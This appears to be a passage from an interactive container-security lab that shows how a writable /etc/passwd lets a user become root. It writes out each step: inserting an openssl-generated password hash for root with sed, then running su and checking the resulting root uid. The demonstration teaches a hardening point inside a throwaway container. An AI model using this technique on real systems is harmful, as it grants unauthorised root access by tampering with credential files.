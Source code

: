 The reason that it is possible for a user to become `root` when `/etc/passwd` is writable, is that although passwords are now stored in `/etc/shadow`, they were once upon a time stored in `/etc/passwd`. That functionality hasn't actually been disabled in Linux. You can manually add a password hash to `/etc/passwd` and it will still be used for authenticating a user.

To show the consequences of this, start a container with an interactive shell:

```execute
podman run -it --rm greeting bash
```

In the container, make a copy of the `/etc/passwd` file.

```execute
cp /etc/passwd /tmp/passwd
```

Generate a hashed password value, where the value of the password is `secret`.

```execute
HASHED_PASSWORD=`openssl passwd -1 secret`
```

Update the `/etc/passwd` file to set this hashed password as that for the `root` user.

```execute
cat /tmp/passwd | sed "s%root:x%root:${HASHED_PASSWORD}%" > /etc/passwd
```

Having updated the `/etc/passwd` file now execute `su` to be come `root`.

```execute
su root
```

You will be prompted for a password, enter:

```execute
secret
```

Verify what user you are by running:

```execute
id
```

The output should be:

```
uid=0(root) gid=0(root) groups=0(root)
```

indicating you are the `root` user inside of the container.

Stop the container by killing it.

```execute
podman kill `podman ps -ql`
```
